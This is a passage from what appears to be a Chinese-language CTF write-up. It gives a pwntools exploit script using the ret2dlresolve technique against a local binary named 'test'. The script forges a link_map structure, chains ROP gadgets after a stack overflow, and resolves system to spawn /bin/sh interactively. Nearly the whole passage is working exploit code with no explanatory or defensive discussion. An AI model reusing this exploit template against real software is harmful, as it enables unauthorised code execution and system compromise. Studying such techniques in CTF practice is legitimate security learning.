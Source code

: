 ```python
        r.close()
```

这里再贴一下ret2dl的解法

```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')

p = process("./test")
elf = ELF("./test")
libc = elf.libc

plt0 = elf.get_section_by_name('.plt').header.sh_addr
pop_rdi_ret = 0x401223
pop_rsi_r15_ret = 0x401221
ret = 0x4011BE

def create_fake_link_map(fake_addr, known_got, reloc_index, offset):
    target = fake_addr - 8   #the result you write in (any addr)
    fake_link_map = p64(offset & (2**64-1))   #l_addr
    fake_link_map = fake_link_map.ljust(0x30, b'\x00')
    fake_jmprel = p64(target-offset)   #r_offset
    fake_jmprel += p64(7)   #r_info
    fake_jmprel += p64(0)   #r_append
    fake_link_map += fake_jmprel
    fake_link_map = fake_link_map.ljust(0x68, b'\x00')
    fake_link_map += p64(fake_addr)   #l_info[5] dynstr
    fake_link_map += p64(fake_addr+0x78-8)   #l_info[6] dynsym
    fake_link_map += p64(known_got-8)   #dynmic symtab
    fake_link_map += p64(fake_addr+0x30-0x18*reloc_index)   #dynmic jmprel
    fake_link_map = fake_link_map.ljust(0xf8, b'\x00')
    fake_link_map += p64(fake_addr+0x80-8)   #l_info[23] jmprel
    return fake_link_map

fake_reloc_arg = 0  #just as one wishes
fake_link_map_addr = 0x404050
fake_link_map = create_fake_link_map(fake_link_map_addr, elf.got['read'], fake_reloc_arg, libc.sym['system'] - libc.sym['read'])
bin_sh_addr = fake_link_map_addr + len(fake_link_map)

payload = b'\x00'*0x28 + p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_r15_ret) + p64(fake_link_map_addr) + p64(0) + p64(elf.plt['read'])
payload += p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(plt0+6) + p64(fake_link_map_addr) + p64(fake_reloc_arg)
payload = payload.ljust(0x200, b'\x00')
p.sendafter("something:\n", payload)

payload = fake_link_map + b'/bin/sh\x00'
gdb.attach(p)
p.send(payload)
p.interactive()
```
